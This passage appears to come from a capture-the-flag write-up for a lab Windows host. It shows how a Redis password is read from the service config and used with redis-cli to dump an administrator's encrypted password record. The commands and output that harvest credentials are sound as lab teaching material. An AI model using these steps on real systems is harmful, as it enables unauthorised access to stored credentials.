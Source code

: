 
Right at the front is this part (whitespace added):

    
    
    "DataSource":"RedisServer",
    "DbServer":"localhost",
    "DbPort":6379,
    "DbEncPassword":"Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb"
    

The program is using Redis rather than local storage, and there is a Redis
server on this host!

#### Redis

I suspect I could try to decrypt that password stored in the PortableKanban
config, but looking around in the Redis directory, there’s a config there as
well, and printing it (using `select-string` to remove comments and then
remove blank lines):

    
    
    PS C:\Program Files\redis> type redis.windows-service.conf | select-string -pattern "^#" -NotMatch | select-string .
    requirepass kidvscat_yes_kidvscat      
    port 6379                                     
    tcp-backlog 511                              
    timeout 0
    tcp-keepalive 0                  
    loglevel notice
    logfile "Logs/redis_log.txt"
    ...[snip]...
    

The first line has the password.

Now with that password, I can access Redis:

    
    
    oxdf@parrot$ redis-cli -h 10.10.10.237
    10.10.10.237:6379> auth kidvscat_yes_kidvscat
    OK
    10.10.10.237:6379> keys *
    1) "pk:ids:MetaDataClass"
    2) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
    3) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
    4) "pk:ids:User"
    

The third key there has the administrator’s information, including the
encrypted password:

    
    
    10.10.10.237:6379> get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
    "{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"
    
